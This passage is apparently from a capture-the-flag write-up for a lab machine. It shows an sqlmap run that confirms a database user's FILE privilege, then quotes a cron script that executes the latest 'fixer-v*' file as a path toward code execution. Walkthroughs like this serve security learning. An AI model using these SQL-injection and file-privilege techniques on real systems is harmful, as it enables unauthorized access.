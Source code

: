 ![](/assets/images/writeups/yummy/SQLI.png)

By using SQLMap we can check our user privileges:

```console
$ sqlmap -r request --privileges

[15:27:11] [INFO] retrieved: 'FILE'
database management system users privileges:
[*] 'chef'@'localhost' [1]:
    privilege: FILE
```

We have `FILE` permissions, meaning we can read and write arbitrary files. Remember we still have a couple of cron scripts we haven't looked at yet, one of which is the `dbmonitor.sh` script owned by the `mysql` user. After we download this file via the same method as before, some things stand out.

```bash
<SNIP>
    if [ -f /data/scripts/dbstatus.json ]; then
        if grep -q "database is down" /data/scripts/dbstatus.json 2>/dev/null; then
            /usr/bin/echo "The database was down at $timestamp. Sending notification."
            /usr/bin/echo "$service was down at $timestamp but came back up." | /usr/bin/mail -s "$service was down!" root
            /usr/bin/rm -f /data/scripts/dbstatus.json
        else
            /usr/bin/rm -f /data/scripts/dbstatus.json
            /usr/bin/echo "The automation failed in some way, attempting to fix it."
            latest_version=$(/usr/bin/ls -1 /data/scripts/fixer-v* 2>/dev/null | /usr/bin/sort -V | /usr/bin/tail -n 1)
            /bin/bash "$latest_version"
        fi
    else
        /usr/bin/echo "Response is OK."
    fi
fi
[ -f dbstatus.json ] && /usr/bin/rm -f dbstatus.json
```
